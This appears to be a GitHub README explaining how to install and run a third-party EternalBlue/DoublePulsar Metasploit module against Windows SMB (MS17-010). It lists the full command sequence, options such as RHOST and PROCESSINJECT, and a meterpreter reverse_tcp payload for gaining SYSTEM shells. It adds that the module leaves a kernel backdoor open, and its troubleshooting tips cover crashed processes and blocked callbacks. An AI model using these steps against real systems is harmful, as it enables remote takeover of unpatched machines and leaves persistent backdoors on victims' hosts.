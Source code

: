 # EternalBlue
ElevenPaths EternalBlue Metasploit module - works better than Rapid 7

EternalBlue module setup (credit to ElevenPaths for their fantastic module)

One thing I could never find was a full setup guide.  I had to piece this together from other sources and how I went about the setup
*One thing to note - this module leaves the backdoor open in the SMB kernel and does not perform cleanup*

# Installation Setup

	1.) git clone https://github.com/w0rtw0rt/EternalBlue to any directory
	2.) Place eternalblue-doublepulsar.rb file into the /usr/share/metasploit-framework/modules/exploits/windows/smb folder
	3.) open terminal
	4.) dpkg --add-architecture i386 && apt-get update && apt-get install wine32
	5.) add directory in your home directory for .wine (mkdir .wine)
	6.) cd .wine 
	7.) mkdir drive_c
	8.) open metasploit (msfconsole)
	9.) use exploit/windows/smb/eternalblue_doublepulsar (should tab autocomplete if you placed in proper directory)
	10.) set proper payload for arch (windows/x64/meterpreter/reverse_tcp vs windows/meterpreter/reverse_tcp)
	11.) show options
	12.) set **DOUBLEPULSARPATH** to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	13.) set **ETERNALBLUEPATH** to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	14.) set **RHOST** *target IP*
	15.) set **TARGETARCHITECTURE** *x86 or x64*
	16.) set **TARGET** *target OS - Windows 2008/7 down to 2003/XP*
	17.) set **PROCESSINJECT** *running process - use lsass.exe (x64) or svchost.exe (x86) or explorer.exe if user is logged in*

At this point, when you run this module for the very first time, wine will initialize and the exploit will fail stating that certain dependencies could not be run.  After the initialization, run the module again and all dependencies will be set up.  The module should complete and if your target is vulnerable, it will open the back door and inject the auto-generated payload to the target.  This should bring back a meterpreter shell with system level access (NTAuthority/System).

# Troubleshooting
    Q. Why did my meterpreter shell die?
    A. Chances are you injected to a process that was unstable.  For example, lsass.exe is going to crash on x86.  A notification will usually appear on the user's desktop notifying them that Windows will restart in 1 minutes due to a fatal error.
    
    Q. The module fails when I try to run it.  It gives me output saying it could not find xxxx directory
    A. Make sure you have pointed your paths to wherever you have your /deps folder residing. It will also need sudo priviliges.
    
    Q. The exploit completed but no session was created!
    A. Multiple things could come into play here:
       a.) Some security feature may be preventing outbound access from the device (reverse tcp connection)
       b.) Your target arch doesn't match your payload
       
    Q. The exploit continues to ask me "are you sure the target is vulnerable?"
    A. Chances are the target isn't vulnerable or has been patched for the ms17-010 exploit. Ensure you've enumerated properly.
